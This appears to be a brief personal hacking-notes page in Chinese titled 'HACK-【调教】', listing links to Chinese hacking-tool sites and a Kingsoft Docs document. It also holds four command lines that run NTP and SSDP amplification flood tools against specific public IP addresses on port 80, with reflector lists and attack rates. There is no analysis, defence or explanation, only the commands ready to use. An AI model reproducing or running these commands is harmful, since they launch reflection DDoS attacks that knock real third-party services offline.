 ```yaml
---
title: HACK-【调教】
date: 2021-08-20 18:07:21
tags: Hack
categories: Hack
---
```


### HACK-【调教】

金山文檔

https://kdocs.cn/l/cpEHxnF2grxH

https://www.w643.com/cydz/2020-08-19/669.html  阿虎放大

https://www.chabug.org/tools/367

https://www.tudoumc.com/post/1727.html

./ntp  43.141.69.215 80 ntpamp.txt 5 -1 1000

 ./ntp 43.129.169.78 80 ntpamp.txt 40 -1 1000

 ./ntp 43.129.169.78 80 ntpamp.txt 40 -1 1000

 ./ssdp 206.212.246.14  80 ssdpfiltered.txt 1000